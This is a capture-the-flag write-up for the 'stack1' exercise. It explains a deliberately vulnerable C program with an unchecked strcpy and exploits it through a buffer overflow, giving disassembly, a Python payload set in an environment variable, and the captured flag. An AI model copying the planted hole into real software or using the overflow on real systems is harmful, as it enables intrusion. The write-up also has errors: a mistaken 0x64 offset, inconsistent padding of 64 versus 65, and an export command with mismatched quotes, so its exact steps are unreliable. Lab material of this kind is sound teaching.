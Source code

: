 # stack1
###### Writeup by Tim Winters

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;
  FILE *fp;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;
  strcpy(buffer, variable);
  fp  = fopen("./flag.txt", "r");

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
      exit(0);
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```
stack1 one is very similar to stack0. We have a variable `modified` that is set to 0, but is checked against a non-zero value. 

Examining the code we see a call to `strcpy` thaat writes the value of environment variable `GREENIE` into `buffer`. We will use this unchecked call to exploit the code.

Let's start by determining the addresses of our variables.

```asm
...
   0x080485c1 <+70>:	push   DWORD PTR [ebp-0xc]
   0x080485c4 <+73>:	lea    eax,[ebp-0x54]
   0x080485c7 <+76>:	push   eax
   0x080485c8 <+77>:	call   0x8048400 <strcpy@plt>
...   
```
Here we have the instructions that set up the stack for the call to `strcpy`. x86 conventions say that the arguments are put on the stack in reverse order. Therefore, `ebp-0x54` is the address of `buffer`. 

Later on we see 

```asm
0x080485e8 <+109>:	mov    eax,DWORD PTR [ebp-0x14]
0x080485eb <+112>:	cmp    eax,0xd0a0d0a
```
This comparison matches up with the comparison of `modified` in the source code. `ebp-0x14` is the address of our modified variable. 

`0x54 - 0x14` = `0x64`. We need 64 bytes of data before we start overwriting our variable. 

To properly write the value of `0xd0a0d0a` it is not enough to simple have our input be `"...aad0a0d0a"`. This will not write the raw bytes, but rather the ascii bytes of the characters. Instead, we can use python to create these literals. 

```
> python -c "import struct; print 'a'*64 + struct.pack('I', 0xd0a0d0a)"
```

It is not enough to simply pass this into `stdin`. Looking at the source code, it pulls our overflowing text from the `GREENIE` environment variable. To set it 

``export GREENIE=`python -c "import struct; print 'a'*65 + struct.pack('I", 0xd0a0d0a)"` ``

Then run the executable normally

```
> ./stack1
you have correctly modified the variable
flag: adec00ee873ae277be6a5548188d80d6
```